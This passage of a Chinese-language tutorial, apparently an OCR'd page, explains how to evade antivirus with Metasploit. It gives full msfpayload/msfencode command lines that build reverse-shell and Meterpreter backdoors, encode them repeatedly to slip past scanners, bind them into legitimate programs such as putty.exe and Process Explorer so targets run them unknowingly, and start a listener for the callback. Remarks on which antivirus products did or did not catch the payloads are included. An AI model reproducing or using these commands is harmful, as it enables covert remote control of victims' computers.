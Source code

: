 使用 R参数作为raw输出至管道，再经过msfencode处理，最后导出。


### 3、多次编码：

例子：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.111 LPORT=31337 R | \
    msfencode –e x86/shikata_ga_nai –c 5 –t raw | \
    msfencode –e x86/alpha_upper –c 2 –t raw | \
    msfencode –e x86/shikata_ga_nai –c 5 –t raw | \
    msfencode –e x86/countdown –c 5 –t exe –o /var/www/payload3.exe
```

简单编码被杀机会很大，使用多次编码效果更好，这里一共使用了17次循环编码。

（题外：经测试，1：使用此命令生成的后门也被MSE杀到；2：未编码的后门或编码次数较少的后门可以直接被秒杀；3：windows/x64/meterpreter/reverse_tcp生成的后门未经任何处理仍然不被杀，看来杀毒软件傻逼了；4：x86编码器编码的后门在64位机器上无法执行；5：360有个沙箱功能，后门文件右键选择“在360隔离沙箱中运行”，msf照样可以连接并操作，看来隔离沙箱功能有限。）


### 4、自定义可执行程序模板：

msfencode默认使用data/templates/templates.exe（msf v4在templates目录下有针对不同平台的不同模板）作为可执行程序的模板，杀毒厂商也不是傻逼，所以这里最好使用自定义模板，如：

```
wget http://download.sysinternals.com/Files/ProcessExplorer.zip
cd work
unzip ProcessExplorer.zip
cd ..
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=8080 R | msfencode –t exe –x work/procexp.exe –o /var/www/pe_backdoor.exe –e x86/shikata_ga_nai –c 5
```

在目标机器上运行，然后本地使用msfcli监听端口等待反弹连接：

```
msfcli exploit/multi/handler PAYLOAD=windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=8080 E
```

### 5、暗度陈仓—猥琐执行payload：

绑定payload至一个可执行文件，让目标不知不觉间中招，以putty.exe为例：

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=8080 R | msfencode –t exe –x putty.exe -o /var/www/putty_backdoor.exe –e x86/shikata_ga_nai –k –c 5
```

假如选择一个GUI界面的程序作为绑定目标并且不使用-k选项，则目标执行此程序的时候不会弹出cmd窗口，-k选项的作用是payload独立于模板软件的进程运行。


### 6、加壳：

msfencode部分编码器会增加程序体积，这时可使用壳（packer）来压缩程序，“带套之后 更保险”，例如UPX ：

`apt-get install upx`
